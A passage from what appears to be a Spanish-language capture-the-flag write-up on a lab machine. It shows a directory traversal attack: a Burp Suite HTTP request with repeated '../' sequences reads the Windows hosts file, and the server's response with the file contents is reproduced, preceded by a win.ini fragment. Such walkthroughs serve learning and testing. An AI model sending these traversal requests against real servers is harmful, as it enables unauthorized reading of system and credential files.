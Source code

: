 ```txt title="directory_traversal.txt" wrap=false
---------

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Si probamos este exploit con **Burpsuite**:

```txt
GET /../../../../../../../../../../../../Windows/System32/Drivers/etc/hosts HTTP/1.1
Host: 10.10.10.184
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.184/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9,en;q=0.8
Cookie: dataPort=6063
Connection: keep-alive
```

```txt 
HTTP/1.1 200 OK
Content-type: 
Content-Length: 824
Connection: close
AuthInfo: 

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
```
